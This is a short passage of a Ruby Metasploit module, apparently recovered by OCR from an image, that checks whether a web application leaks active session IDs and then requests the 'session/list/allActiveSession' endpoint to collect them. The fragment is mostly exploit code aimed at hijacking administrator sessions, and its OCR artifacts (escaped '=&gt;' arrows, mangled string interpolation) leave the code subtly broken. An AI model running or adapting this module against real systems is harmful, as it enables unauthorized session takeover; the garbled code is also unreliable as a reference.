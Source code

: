 ```
          )

 

    rescue

      return Exploit::CheckCode::Unknown

    end

 

    if res.code == 200 and res.body.include? 'sessionId'  

      return Exploit::CheckCode::Vulnerable

    else

       if res.code == 200 and res.body.include? 'SUCCESS'

         print_status("Target is vulnerable! But active admin session was not found. Try again later.")

         return Exploit::CheckCode::Appears

       end

    end

 

    return Exploit::CheckCode::Safe

  end

 

  def count_user(data, find_string)

    data.scan(/(?=#`{`find_string`}`)/).count

  end

 

  def run

    unless Exploit::CheckCode::Vulnerable == check

      fail_with(Failure::NotVulnerable, 'Target is not vulnerable.')

    end

 

    res = send_request_cgi(

          'method'  =&gt; 'GET',

          'uri' =&gt; normalize_uri(target_uri.path, "session", "list", "allActiveSession"),

          )

```